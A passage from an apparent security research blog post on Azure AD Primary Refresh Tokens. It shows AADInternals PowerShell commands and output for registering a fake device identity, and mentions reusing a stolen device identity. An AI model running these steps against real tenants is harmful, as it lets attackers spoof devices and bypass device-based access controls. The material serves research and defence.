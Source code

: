 As we can see, the access tokens obtained using the PRT token will have the **deviceId** claim (line 10). 
Depending on how did you get the PRT keys, you'll also have **rsa** and possibly **mfa** claims (line 7).

# Faking device identity

What about doing this the other way around - would it be possible to fake the identity of Windows computer? For short, yes it is!

We have two options: 

1. Create a <a href="/post/prt/#creating-your-own-prt" target="_blank">fake device</a> identity with AADInternals
2. Use the stolen identity

Only difference is that the former uses just one .pfx file, whereas the stolen identity has also the transport key in .pem file.

When "joining" the local device, AADInternals emulates the real join process and will do the following:

* Create a P2P certificate
* Import the device and P2P certificates
* Import P2P CA to AAD Token Issuer
* Store transportkey
* Set registry information
* Start scheduled tasks 

To create a fake device with AADInternals:
{{< highlight powershell >}}
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache

# Join the fake device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "My computer" -DeviceType "Commodore" -OSVersion "C64"
{{< /highlight>}}

Output should be similar to below.
```
Device successfully registered to Azure AD:
  DisplayName:     "My computer"
  DeviceId:        d03994c9-24f8-41ba-a156-1805998d6dc7
  ObjectId:        afdeac87-b32a-41a0-95ad-0a555a91f0a4
  TenantId:        8aeb6b82-6cc7-4e33-becd-97566b330f5b
  Cert thumbprint: 78CC77315A100089CF794EE49670552485DE3689
  Cert file name : "d03994c9-24f8-41ba-a156-1805998d6dc7.pfx"
Local SID:
  S-1-5-32-544
Additional SIDs:
  S-1-12-1-797902961-1250002609-2090226073-616445738
  S-1-12-1-3408697635-1121971140-3092833713-2344201430
  S-1-12-1-2007802275-1256657308-2098244751-2635987013
``` 
